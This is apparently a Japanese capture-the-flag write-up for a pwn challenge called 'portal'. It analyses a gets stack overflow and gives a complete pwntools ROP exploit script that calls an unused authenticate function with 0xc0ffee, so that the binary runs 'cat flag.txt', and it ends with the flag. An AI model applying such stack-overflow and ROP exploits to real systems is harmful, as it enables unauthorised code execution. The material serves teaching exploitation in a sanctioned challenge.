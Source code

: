 # portal writeup

## 問題文

```txt
login機能を実装したけど，関数を呼び出し忘れちゃった😭

nc 203.0.113.0 4001
```

## about

ROPです．

## writeup

`main`を読むと，問題文の通り`authenticate`を呼び出していませんが，スタック上の変数に対し`gets`を使っています．

また，`authenticate`を読むと，第一引数が`0xc0ffee`の時，第二引数を`system`に渡しています．

第一引数が条件を満たさない場合は`system("cowsay cat flag.txt")`が呼び出されます．

これらの解析から，

- `main`の`gets`ではスタックオーバーフローが発生する
- `authenticate(0xc0ffee, "cat flag.txt")`の様な呼び出しをすればflagが読める

事が予想できます．

幸いな事に，`"cat flag.txt"`の文字列は`cowsay`の所にあるので，これが流用できます．

```python3
#!/usr/bin/env python3
from pwn import *
binfile = './chall'
context.binary = binfile
e = ELF(binfile)
rop = ROP(e)

io = remote("203.0.113.0", 4001)

for _ in range(6):
    io.readline()

rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(pack(0xc0ffee)) # rdi
rop.raw(rop.find_gadget(['pop rsi', 'pop r15', 'ret']))
rop.raw(pack(next(e.search(b'cat flag.txt')))) # rsi
rop.raw(pack(0)) # r15
rop.call(pack(e.sym['authenticate']))

payload = b'a' * 0x28 + rop.chain()

io.sendline(payload)

print(io.readline().decode())
```

## flag

`ISCCTF{ROP_1s_k1ll3d_by_Intel_CET}`
